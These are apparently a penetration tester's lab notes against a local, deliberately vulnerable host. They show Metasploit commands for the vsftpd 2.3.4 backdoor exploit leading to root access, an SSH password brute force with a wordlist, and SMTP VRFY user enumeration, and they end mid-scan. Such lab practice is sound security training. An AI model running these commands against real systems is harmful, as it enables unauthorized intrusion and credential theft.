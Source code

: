 msf > use unix/ftp/vsftpd_234_backdoor
msf auxiliary(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.0.117
msf auxiliary(unix/ftp/vsftpd_234_backdoor) > run

i gained full root access

################################################################################################
22/tcp   open  ssh  


brute-forced ssh

msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
msf auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
msf auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.0.117

found username: msfadmin
      password: msfadmin

################################################################################################
25/tcp   open  smtp 

> telnet 192.168.0.117 25 
vrfy sys
252 2.0.0 sys

## which means that sys is a user

vrfy admin
550 5.1.1 <admin>: Recipient address rejected: User unknown in local recipient table

## so admin not found

## now we use smtp-user-enum

> smtp-user-enum -M VRFY -U /usr/share/fern-wifi-cracker/extras/wordlists/common.txt -t 192.168.0.117

Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/fern-wifi-cracker/extras/wordlists/common.txt
Target count ............. 1
Username count ........... 478
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 
